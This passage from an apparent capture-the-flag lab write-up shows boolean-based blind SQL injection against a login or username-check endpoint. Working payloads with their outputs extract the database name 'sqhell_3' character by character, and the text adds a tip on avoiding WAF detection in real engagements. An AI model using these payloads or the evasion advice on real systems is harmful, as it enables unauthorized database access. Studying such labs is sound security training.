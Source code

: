 So we can now get the DB/Schema name knowing the length is 8.

we will use ASCII code. The **ASCII code** associates an integer value for all symbols in the character set, such as letters, digits, punctuation marks, special characters, and control characters.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# check if the ascii char of the 1st letter is > 100.
admin' AND (ascii(substr((select database()),1,1))) > 100-- -

# output
{"available":false}

# meaning a Truthy statement.
```
{% endcode %}

{% code overflow="wrap" %}
```bash
admin' AND (ascii(substr((select database()),1,1))) > 120-- -

# outputs
{"available":true}
```
{% endcode %}

So it is between 100 and 120. After playing with it, i found it is 115 (**115 is "s" in ascii**).

This method can be tedious, we can use Burp intruder. But in real life engagement we can use this method to quickly get the info from the db so as not to trigger the WAF.

I can assume the db name is `sqhell_x`  so lets find out the value of `x` .

{% code overflow="wrap" %}
```bash
# we can use the "=" sign if we are certain of the value.
# 1st char.
admin' AND (ascii(substr((select database()),1,1))) = 115-- -
# 2nd char.
admin' AND (ascii(substr((select database()),2,1))) = 113-- -
# 3rd char.
admin' AND (ascii(substr((select database()),3,1))) = 104-- -
# 4th char.
admin' AND (ascii(substr((select database()),4,1))) = 101-- -
# 5th char.
admin' AND (ascii(substr((select database()),5,1))) = 108-- -
# 6th char.
admin' AND (ascii(substr((select database()),6,1))) = 108-- -
# 7th char.
admin' AND (ascii(substr((select database()),7,1))) = 95-- -
# 8th char.
admin' AND (ascii(substr((select database()),8,1))) = 51-- -

sqhell_3
```
{% endcode %}
